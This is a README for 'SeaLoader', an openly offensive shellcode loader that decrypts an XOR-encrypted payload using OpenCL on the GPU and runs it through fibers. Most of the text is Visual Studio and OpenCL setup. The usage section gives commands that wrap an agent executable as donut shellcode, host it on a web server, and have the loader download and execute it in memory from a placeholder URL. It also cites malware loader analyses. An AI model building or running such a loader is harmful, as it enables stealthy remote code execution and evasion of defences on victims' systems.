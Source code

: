# SeaLoader
Shellcode loader that downloads and decrypts an XOR encrypted using OpenCL, then launches it with fibers. For a deeper dive, see the blog post here:

[https://p0142.github.io/posts/sealoader/](https://p0142.github.io/posts/sealoader/)

## General instructions for setting up a visual studio project to compile OpenCL
### 1. Install OpenCL SDK / Drivers

OpenCL is not part of Visual Studio itself. You need vendor-specific OpenCL runtime + headers.

* **NVIDIA GPU** → Install the [CUDA Toolkit](https://developer.nvidia.com/cuda-downloads). It includes `OpenCL.dll`, headers, and ICD loader.
* **AMD GPU** → Install the [AMD APP SDK](https://github.com/GPUOpen-LibrariesAndSDKs) (legacy) or ROCm / Windows drivers with OpenCL runtime.
* **Intel GPU / CPU** → Install [Intel OpenCL SDK](https://www.intel.com/content/www/us/en/developer/tools/opencl-sdk/overview.html).

Alternately if you're running this in a VM you can use POCL, which you can get here:

[POCL](https://portablecl.org/)

Grab the SDK here:

[OpenCL-SDK](https://github.com/KhronosGroup/OpenCL-SDK)

After installation, you should have:
* `OpenCL.lib` (import library)
* `OpenCL.dll` (runtime, usually in `C:\Windows\System32`)
* `CL/cl.h` and `CL/opencl.hpp` (headers for C and C++)

---

### 2. Set Up Visual Studio Project
1. Open **Visual Studio** → **Create a new Project** → choose **Console App (C++).**
2. Right-click your project → **Properties**.

#### Include directories
* Go to **C/C++ → General → Additional Include Directories**
* Add the path to OpenCL headers, e.g.:
  ```
  C:\Program Files (x86)\Intel\OpenCL SDK\include
  ```

  or
  ```
  C:\Program Files\NVIDIA GPU Computing Toolkit\CUDA\v12.x\include
  ```

#### Library directories
* Go to **Linker → General → Additional Library Directories**
* Add path to libraries, e.g.:
  ```
  C:\Program Files (x86)\Intel\OpenCL SDK\lib\x64
  ```

#### Link against OpenCL
* Go to **Linker → Input → Additional Dependencies**
* Add:
  ```
  OpenCL.lib
  ```

From here you should be able to compile the program.

#### Donuts
The donut generator python script requires donut shellcode: https://github.com/TheWover/donut
```
pip install donut-shellcode
```
The loader should work with any shellcode though, not only donut.

# Usage:
Create your payload:
```
python donutGenerator.py -i agent.exe -x "HelloWorld"
```
Host the file on a web server and use the loader to download into memory and execute
```
.\SeaLoader.exe /p:http://example.com/payload.bin /x:HelloWorld
```

## References/Inspiration
* https://www.zscaler.com/blogs/security-research/coffeeloader-brew-stealthy-techniques
* https://eversinc33.com/posts/gpu-malware.html
* https://www.4hou.com/posts/xyE9
* https://www.antiy.net/Download/comprehensive-analysis-of-armouryloader-series-analysis-of-typical-loader-families-five.pdf
* https://oblivion-malware.xyz/posts/shellcode-pt4-stager-local-inject-fibers/

